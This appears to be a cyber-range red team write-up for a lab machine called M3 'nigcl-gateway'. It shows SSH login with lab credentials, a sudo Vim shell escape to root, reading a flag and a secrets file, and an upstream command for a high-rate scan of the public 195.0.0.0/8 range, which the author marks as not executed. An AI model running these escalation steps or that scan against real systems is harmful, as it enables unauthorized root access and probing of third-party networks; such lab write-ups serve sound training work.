







# M3 NIGCL Gateway — Red Team Solution

**Range4 | Machine:** `M3-nigcl-gateway`  
**Source:** [Official solve_red.md](https://github.com/hacktifytechnologies/Range4/blob/main/machines/M3-nigcl-gateway/solve_red.md)  
**Target:** `192.168.222.132` | **Attacker:** Kali Linux `192.168.222.128`  
**Vulnerability:** Sudo NOPASSWD Vim → GTFOBins shell escape  
**MITRE ATT&CK:** T1548.003 — Abuse Elevation Control Mechanism: Sudo  
**Execution date:** 23 October 2026

> Evidence reflects the actual M3 lab session. Screenshot filenames are relative to this Markdown file. Step 6 is deferred because M4 is not deployed. Keep these credentials and flags inside the authorized lab.

## Step 1 — Login over SSH

The original solution begins with SSH access as `devops`. We first verified that SSH was listening on port 22:

```bash
nmap -sV -p 22 192.168.222.132
```

**Observed:** `22/tcp open ssh`, OpenSSH 8.9p1 Ubuntu.



Connect with credentials recovered from M2:

```bash
ssh devops@192.168.222.132
# Password: D3v0ps@N1GCL
```

**Observed:** successful SSH authentication, `devops@nigcl-gateway` prompt.





## Step 2 — Enumerate sudo permissions

```bash
sudo -l
```

**Observed:**

```text
User devops may run the following commands on nigcl-gateway:
    (ALL) NOPASSWD: /usr/bin/vim
```

This grants root execution of Vim without requiring a sudo password.



## Step 3 — Privilege escalation using Vim

```bash
sudo vim -c ':!/bin/bash'
whoami
id
```

**Observed:** `root` and `uid=0(root) gid=0(root) groups=0(root)`.



## Step 4 — Read Flag 3

From the root shell:

```bash
cat /root/flag3.txt
```

**Observed Flag 3:**

```text
FLAG{a408c9845986169b_sudo_vim_nigcl}
```



## Step 5 — Retrieve M4 progression hint

```bash
cat /root/secrets.txt
```

**Observed:** internal access record for `nigcl-scheduler` (backup infrastructure), SSH user `sysbackup`, password `Sysb@ckup2024`, and an M4 SSH hint on port 22. The document mentioned network `195.0.0.0/8`; do not assume this public address space is safe to scan unless the entire range is isolated within the cyber range.



## Step 6 — Discover / access M4 (deferred)

The upstream writeup specifies:

```bash
# Upstream instructions — NOT EXECUTED
nmap -p 22 --open 195.0.0.0/8 --min-rate 2000
ssh sysbackup@<M4-PRIV-IP>
```

**Status:** Deferred. M4 was not yet deployed. Limit discovery to an explicitly authorized, confirmed private lab subnet when it becomes available.


## Red Team outcome

- SSH access as `devops`: **confirmed**.
- Passwordless sudo Vim: **confirmed**.
- Root shell through Vim: **confirmed**.
- Flag 3: **retrieved**.
- M4 progression hint: **retrieved**.
- M4 pivot: **deferred**.
